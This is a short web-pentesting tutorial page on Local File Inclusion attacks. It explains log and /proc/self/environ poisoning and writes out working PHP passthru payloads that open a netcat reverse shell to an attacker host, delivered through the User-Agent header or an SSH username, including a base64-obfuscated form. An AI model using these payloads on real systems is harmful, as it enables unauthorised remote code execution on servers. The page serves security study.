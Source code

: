 ```yaml
---
title: LFI attack - Local File Inclusion
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
---
```


# LFI attack - Local File Inclusion

## Tools and payloads 

- See updated chart: [Attacks and tools for web pentesting](web-security-testing-guide.md).


## Interesting files

### /proc/self/environ 

This files contain Environment variables. One of those variables might be HTTP_USER_AGENT, which is the user agent used by the client to access the server. So by using a  proxy interceptor  we could modify that header to be, let's say:

```
<?phpinfo()>
```

![Local file inclusion](img/lfi-1.png)


When it comes to get a shell here, we need to use PHP function passthru, which is similar to the exec command:

passthru — Execute an external program and display raw output

In this case, we would be adding in the user agent header the reverse shell:

```
<?passthru("nc -e /bin/sh <attacker IP> <attacker port>") ?> 
```

### /var/log/auth.log  or /var/log/apache2/access.log

If  we have the ability to read a log file, then we can see if we can write in them in a malicious way.

For instance, with /var/log/auth.log, we can try an ssh connection and see how these attemps are recorded on the file. Then, instead of using a real username, I can set some php code:


```
ssh "<?passthru('nc -e /bin/sh <attacker IP> <attacker port>');?>"@$ip 
```

But there might be problems with blank spaces, slashes and so on, so one thing you can do is base64 encoded your netcat command, and tell the function to decode it before executing it  

```
# base64 encode your netcat command: nc -e /bin/sh <attacker IP> <attacker port>
ssh "<?passthru(base64_decode'<base64 encoded text>');?>"@$ip 
```

Now just get a netcat listener in your kali attacker machine.